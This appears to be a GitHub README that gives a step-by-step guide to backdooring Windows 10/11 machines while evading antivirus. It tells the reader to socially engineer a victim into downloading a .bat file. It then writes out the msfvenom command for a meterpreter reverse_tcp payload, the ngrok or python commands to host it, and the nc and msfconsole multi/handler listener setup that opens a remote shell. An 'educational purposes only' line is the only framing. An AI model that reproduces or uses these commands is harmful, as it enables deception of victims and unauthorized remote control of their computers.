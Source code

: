 # Windows 11/10 Evade AV & Insert Backdoor

#### **For educational purposes only!**
#### **Social Engineering is required!**
#### **Requires victim to have Admin Privs**

## Steps to Compromise:

1. **Setup Trojan Horse.** 
2. **Get creative and get victim to download .bat file to their machine (i.e through ngrok server, google drive, discord, or other means.)**
3. **Generate the payload:** <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]
4. **Setup server in files directory:** <br>
ngrok tcp 80 or python3 -m http.server 80
Using ngrok, or python if local
5. **Setup your listener with nc or msfconsole:** <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>

# Demonstration Video
Insert video in markdown!
